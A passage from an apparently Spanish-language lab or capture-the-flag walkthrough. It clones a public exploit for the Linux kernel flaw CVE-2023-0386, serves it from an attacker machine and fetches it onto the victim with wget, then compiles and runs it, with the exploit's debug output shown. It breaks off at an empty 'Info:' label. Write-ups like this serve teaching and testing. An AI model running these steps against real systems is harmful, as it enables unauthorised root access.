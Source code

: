 ```shell
git clone https://github.com/sxlmnwb/CVE-2023-0386.git
zip -r CVE-2023-0386.zip CVE-2023-0386/
```

Una vez comprimido nos lo pasamos por un servidor de `python3` de esta forma:

```shell
python3 -m http.server 80
```

En la maquina victima haremos esto:

```shell
wget http://<IP>/CVE-2023-0386.zip
unzip CVE-2023-0386.zip
```

Una vez descomrpimido nos metemos dentro de la carpeta y lo compilamos de esta forma:

```shell
cd CVE-2023-0386/
make all
```

Una vez compilado, lo ejecutaremos de esta forma:

```shell
./fuse ./ovlcap/lower ./gc
```

Info:

```
[+] len of gc: 0x3ee0
[+] readdir
[+] getattr_callback
/file
[+] open_callback
/file
[+] read buf callback
offset 0
size 16384
path /file
[+] open_callback
/file
[+] open_callback
/file
[+] ioctl callback
path /file
cmd 0x80086601
```

En la segunda terminal ejecutamos este otro binario:

```shell
./exp
```

Info:
